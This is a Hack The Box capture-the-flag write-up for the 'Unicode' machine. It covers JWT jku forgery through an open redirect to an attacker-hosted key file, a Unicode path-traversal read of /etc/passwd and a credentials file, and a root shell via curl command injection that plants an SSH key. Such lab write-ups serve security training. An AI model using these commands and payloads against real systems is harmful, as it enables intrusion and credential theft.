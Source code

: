 # 🧪 Unicode – HTB Writeup

**Platform:** Hack The Box  
**Difficulty:** Medium  
**OS:** Linux  
**Release Date:** 27 Nov 2021  
**Author:** webspl01t3r
**Writeup by:** inkedQT  
**User flag:** `e0a0c27b634bd51e0aee4cb0********`  
**Root flag:** `ca86fe9edd53a27e61f96099********`

---

## 🧭 Overview

Unicode is a Linux machine that involves JWT manipulation via JWKS injection, filtered LFI bypass using Unicode tricks, and a Python binary reverse-engineered for privilege escalation. Key elements include JWT key confusion, a HostSplit-based Unicode LFI bypass, and exploiting a filtered `curl` command in a custom executable.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -p- --min-rate=1000 -T4 10.10.11.126
nmap -p22,80 -sV 10.10.11.126
```

Open Ports:
- `22/tcp` – OpenSSH
- `80/tcp` – Nginx

### 🕵️‍♂️ Web Enum

- Website presents a **Hackmedia** portal.
- Registration/login available.
- File upload only accepts PDFs.
- JWT-based cookie is assigned after login.

Cookie Header:
```json
{
  "typ": "JWT",
  "alg": "RS256",
  "jku": "http://hackmedia.htb/static/jwks.json"
}
```

---

## 🧨 Exploitation

### 🔐 JWT JWKS Injection

- A `jku` header points to a JWKS file.
- There's an open `/redirect?url=` endpoint → exploitable for **key confusion**.
- Host a malicious JWKS file:

```bash
cd jwt_tool
python3 -m http.server 80
```

- Forge a token using:
```bash
python3 jwt_tool.py <JWT> \
  -X s \
  -ju 'http://hackmedia.htb/static/../redirect?url=10.10.14.18/jwttool_custom_jwks.json' \
  -I -pc user -pv admin
```

- Replace the `auth` cookie → gain **admin access**.

---

### 🗂️ Unicode LFI via HostSplit

- Admin dashboard loads PDF reports via:
  ```
  /display/?page=monthly.pdf
  ```

- Standard LFI blocked by WAF.
- Unicode trick: use **"Two Dot Leader"** (‥ – `U+2025`) instead of `..`

```bash
http://hackmedia.htb/display/?page=‥/‥/‥/‥/‥/‥/etc/passwd
```

- Used this to find `db.yaml`:

```bash
http://hackmedia.htb/display/?page=‥/‥/‥/home/code/coder/db.yaml
```

- Credentials inside:

```yaml
mysql_user: code
mysql_password: B3stC0d3r2021@@!
```

### 🔐 SSH Access

```bash
ssh code@hackmedia.htb
# Shell as code
```

**User flag:** `e0a0c27b634bd51e0aee4cb0********`

---

## ⬆️ Privilege Escalation

### 🔍 Sudo Check

```bash
sudo -l
# /usr/bin/treport (no password)
```

### 🔎 Reverse Engineering treport

- Binary is PyInstaller-packed.
- Extract with `pyinstxtractor.py`
- Decompile `.pyc` with `uncompyle6`

Found vulnerable code:
```python
cmd = '/bin/bash -c "curl ' + ip + ' -o /root/reports/threat_report_' + current_time + '"'
```

- Unsafe: `curl` injection is possible
- `{}`, `,` are allowed → bypass with `${IFS}` or similar

### 💥 Exploit: Inject SSH Key

```bash
# Host malicious public key
cp ~/.ssh/id_rsa.pub .
python3 -m http.server 80
```

Then on box:

```bash
sudo /usr/bin/treport
# Inject payload with URL to SSH key
```

- SSH as root

**Root flag:** `ca86fe9edd53a27e61f96099********`

---

## 📚 Lessons Learned

- 🧬 **JWT JWKS injection** via `jku` and open redirect
- 🧙 **Unicode-based LFI bypass** using HostSplit
- 🐍 **Reverse engineering PyInstaller binaries**
- 🔐 SSH key injection through filtered command injection

---

## 📸 Proof

![proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/unicode.png)
